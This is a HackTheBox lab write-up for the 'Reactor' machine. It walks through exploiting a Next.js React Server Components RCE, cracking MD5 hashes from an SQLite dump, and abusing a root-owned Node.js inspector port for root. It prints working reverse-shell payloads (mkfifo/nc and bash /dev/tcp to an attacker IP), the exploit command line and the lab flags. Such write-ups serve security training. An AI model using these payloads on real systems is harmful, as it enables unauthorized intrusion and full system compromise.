# HTB — Reactor

> **Platform:** HackTheBox Academy  
> **Difficulty:** Easy 
> **OS:** Linux  
> **Author:** Syed Saif Sikander  

---

## Table of Contents

1. [Overview](#overview)
2. [Technology Primer — Next.js & Node.js](#technology-primer)
3. [Enumeration](#enumeration)
4. [Web Reconnaissance](#web-reconnaissance)
5. [Initial Access — CVE-2025-55182 (React2Shell)](#initial-access)
6. [Post-Exploitation & Internal Reconnaissance](#post-exploitation)
7. [Credential Discovery & Lateral Movement](#credential-discovery)
8. [Privilege Escalation — Node.js Inspector Abuse](#privilege-escalation)
9. [Root Flag](#root-flag)
10. [Summary](#summary)

---

## Overview

**Reactor** is a Linux machine themed around a fictional nuclear reactor monitoring system called *ReactorWatch*. The attack chain begins with an unauthenticated Remote Code Execution vulnerability in Next.js (CVE-2025-55182), escalates through credential extraction from an SQLite database, and ultimately leverages an exposed Node.js Inspector debug port running as root to achieve full system compromise.

---

## Technology Primer

Before diving in, it helps to understand what is actually running on this machine and why it is exploitable.

### What is Next.js?

Next.js is a React-based web framework built on Node.js, developed by Vercel. It is widely used for building full-stack web applications because it handles both the frontend UI (React components) and backend server-side logic in a single codebase. A core feature of modern Next.js (v13+) is **React Server Components (RSC)** — components that run exclusively on the server and communicate with the client using a binary protocol called the **RSC Flight format**.

### What is Node.js?

Node.js is a JavaScript runtime that executes JavaScript code outside of a browser — on the server. It powers the backend of Next.js applications. Node.js ships with a built-in **Inspector/debugger protocol** accessible over TCP, typically on port `9229`. When this port is exposed, an attacker can connect to it and execute arbitrary JavaScript — including spawning system shells — with the privileges of the Node.js process.

### Why does this matter here?

The target runs **Next.js v15.0.3**, which is vulnerable to CVE-2025-55182. Separately, a root-owned Node.js process has its debug port (`127.0.0.1:9229`) exposed internally — a dangerous misconfiguration that becomes the path to root.

---

## Enumeration

### Nmap — Service Discovery

```bash
sudo nmap -sC -sV 10.129.18.145
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.16
3000/tcp open  ppp?    (Next.js application — HTTP/1.1 200 OK)

X-Powered-By: Next.js
```

**Key findings:**
- **Port 22** — SSH (OpenSSH 9.6p1, Ubuntu)
- **Port 3000** — A web application. The response headers reveal `X-Powered-By: Next.js`, and the HTML source confirms a Next.js frontend. Nmap misidentifies port 3000 as `ppp` since it is a non-standard HTTP port, but the fingerprint strings clearly show HTTP 200 responses with Next.js cache headers.

> **Note:** The IP address changed between screenshots due to a machine reset during the engagement. All screenshots reflect the same target box at different spawn IPs.

---

## Web Reconnaissance

### Manual — Website & Wappalyzer

Navigating to `http://10.129.18.115:3000` reveals **ReactorWatch Core Monitoring System v3.2.1** — a nuclear reactor dashboard displaying live sensor data: core temperature, pressure, coolant flow, turbine output, and neutron flux.



The Wappalyzer browser extension was used to passively fingerprint the tech stack without triggering any alerts.



Wappalyzer confirms:
- **Next.js 15.0.3** (JavaScript framework, web framework, web server, static site generator)
- **React**

The version `15.0.3` is the critical detail here. A Google search for vulnerabilities in this exact version leads directly to **CVE-2025-55182**.



### Automated — Nuclei

To validate findings without manual guesswork, Nuclei was run against the target:

```bash
nuclei -target http://10.129.18.115:3000
```



Nuclei immediately flags **[CVE-2025-55182] [critical]** on the target, confirming that the machine is vulnerable and that an exploit template exists.

---

## Initial Access — CVE-2025-55182 (React2Shell)

### Vulnerability Background

**CVE-2025-55182**, nicknamed **React2Shell**, is a critical (CVSS 10.0) unauthenticated Remote Code Execution vulnerability in Next.js React Server Components. The vulnerability exists in the RSC "Flight" protocol — an internal binary protocol Next.js uses to stream server-rendered component data to the client. An attacker can craft a malicious HTTP request that causes the server to deserialize and execute arbitrary Node.js code, all without any authentication.

A working proof-of-concept exploit is publicly available:  
**`https://github.com/Chocapikk/CVE-2025-55182`**

Reference:  
**`https://www.microsoft.com/en-us/security/blog/2025/12/15/defending-against-the-cve-2025-55182-react2shell-vulnerability-in-react-server-components/`**

### Exploitation

The exploit was then executed against the target, specifying the attacker IP and port:

```bash
python3 exploit.py -u http://10.129.18.115:3000 -r -l 10.10.14.118 -p 4444 -P nc-mkfifo
```



A reverse shell connection was established from `10.129.18.115:43014`. The shell was spawned as the `node` user. A PTY was immediately upgraded for stability:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

This lands on the system as **`node@reactor`** in `/opt/reactor-app`.

---

## Post-Exploitation & Internal Reconnaissance

### Application Directory

```bash
ls -la
```



The working directory `/opt/reactor-app` contains the full Next.js application. Notably present is **`reactor.db`** — a SQLite database file.

### Running Processes

```bash
ps aux
```



Two entries stand out:

| PID  | User | Command |
|------|------|---------|
| 1408 | node | `next-server (v15.0.3)` |
| 1410 | root | `/usr/bin/node --inspect=127.0.0.1:9229 /opt/uptime-monitor/worker.js` |

**Critical observation:** A Node.js process is running as **root** with `--inspect=127.0.0.1:9229`. This exposes the Node.js debugger protocol on localhost port 9229 — accessible from within the machine.

### Network Ports — Internal

```bash
ss -tulpn
```



Port `127.0.0.1:9229` is confirmed as listening internally. This is the Node.js Inspector debug port belonging to the root-owned process identified above.

---

## Credential Discovery & Lateral Movement

### SQLite Database Dump

```bash
sqlite3 reactor.db .dump
```



The database dump reveals two user accounts:

```sql
INSERT INTO users VALUES(1,'admin','a203b22191d744a4e70ada5c101b17b8','administrator','admin@reactor.htb');
INSERT INTO users VALUES(2,'engineer','39d97110eafe2a9a68639812cd271e8e','operator','engineer@reactor.htb');
```

Both `password_hash` values are unsalted MD5 hashes.

### Hash Cracking

Both hashes were submitted to an online MD5 cracker:



| User      | Hash                               | Result    |
|-----------|------------------------------------|-----------|
| engineer  | `39d97110eafe2a9a68639812cd271e8e` | `reactor1` |
| admin     | `a203b22191d744a4e70ada5c101b17b8` | Not found |

The engineer hash cracks to **`reactor1`**. The admin hash could not be cracked through public rainbow tables.

### Lateral Movement — su to engineer

Using the cracked credentials from within the shell:

```bash
su engineer
# Password: reactor1
whoami
# engineer
```



### SSH Login (Alternative Path)

Alternatively, the cracked credentials can be used to SSH directly into the machine for a stable, fully interactive shell:

```bash
ssh engineer@10.129.18.115
# Password: reactor1
```



The SSH banner confirms the fictional context: *ReactorWatch Core Monitoring System — Nuclear Dynamics Corp. — Site 7 — AUTHORIZED PERSONNEL ONLY.*

### User Flag

```bash
ls -la
cat user.txt
```



```
eebd5fc18d69094cd712fdfc894f5353
```

### Home Directory Discovery

```bash
ls /home
```



Two home directories exist: `engineer` and `node`. Attempting to access `/home/node` as the engineer user is denied — it belongs to the `node` service account that runs the Next.js application.

---

## Privilege Escalation — Node.js Inspector Abuse

### The Vulnerability

During internal reconnaissance, a root-owned Node.js process was found running with:

```
/usr/bin/node --inspect=127.0.0.1:9229
```

The `--inspect` flag enables the Node.js V8 Inspector Protocol — a WebSocket-based debugger interface originally designed for development tools like Chrome DevTools. When an attacker has access to this port, they can connect as a "debugger" and execute arbitrary JavaScript in the context of the running process — in this case, **root**.

Reference: [HackTricks — Electron/CEF/Chromium Debugger Abuse](https://hacktricks.wiki/en/linux-hardening/software-information/electron-cef-chromium-debugger-abuse.html)

### Connecting to the Debug Port

From the engineer shell, the `node inspect` client was used to connect:

```bash
node inspect 127.0.0.1:9229
```



Connection is confirmed: `connecting to 127.0.0.1:9229 ... ok`. A `debug>` prompt is available.

### First Attempt — mkfifo Reverse Shell

An initial attempt was made using a classic mkfifo shell payload:

```javascript
require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR_TUN0_IP 4444 >/tmp/f')
```

A connection was received, but the shell came back as **engineer** — not root. The reason: the `node inspect` client itself runs as engineer, so `require('child_process')` in the REPL executes in the client's process, not in the remote root process being debugged.

### Second Attempt — exec() Bypass to Root Process

The correct technique requires using the `exec()` function in the debug REPL, which evaluates an expression *inside the remote process* (the root `worker.js` process), not the local client.

A netcat listener was prepared on port 9002:

```bash
nc -lvnp 9002
```

The payload was executed in the Node.js debug REPL:

```javascript
exec("process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/10.10.14.118/9002 0>&1\"').toString()")
```



### Why `.execSync()` instead of `.exec()` with `.toString()`?

> Both approaches work — as proven here, `.exec()` with `.toString()` successfully caught the root shell. However, `.execSync()` is the recommended practice for the inner `child_process` call. Since `.execSync()` is synchronous, it holds the process open intentionally rather than relying on async timing, making the shell connection more predictable and reliable across different Node.js versions and system configurations. In a real engagement, depending on asynchronous behavior to catch a reverse shell introduces a race condition that is better avoided. The outer `exec()` wrapper in the debug REPL remains necessary regardless — it is what sends the expression into the remote root process's evaluation context rather than executing locally on the client side. The `[object Object]` return printed in the debug REPL confirms the child process was successfully launched inside the root process.
---

## Root Flag

The netcat listener catches the connection as **root**:



```bash
cd /root
ls
# root.txt
cat root.txt
```

```
0201e55ee5b46b2b4cc40b1fb46bb78a
```

---

## Summary

| Step | Technique | Finding |
|------|-----------|---------|
| Enumeration | Nmap `-sC -sV` | Port 22 (SSH), Port 3000 (Next.js 15.0.3) |
| Web Recon | Wappalyzer + Nuclei | Confirmed Next.js 15.0.3, CVE-2025-55182 flagged critical |
| Initial Access | CVE-2025-55182 (React2Shell) | Unauthenticated RCE → shell as `node` |
| Post-Exploitation | SQLite dump + hash cracking | MD5 hash → `reactor1` (engineer) |
| Lateral Movement | `su engineer` / SSH | Shell and user flag as `engineer` |
| PrivEsc Discovery | `ps aux` + `ss -tulpn` | Root Node.js process with `--inspect=127.0.0.1:9229` |
| Privilege Escalation | Node.js Inspector debug abuse | Remote code execution in root process → root shell |
| Root Flag | `/root/root.txt` | `0201e55ee5b46b2b4cc40b1fb46bb78a` |

---

> *This writeup was produced for educational purposes on an authorized HackTheBox lab environment.*
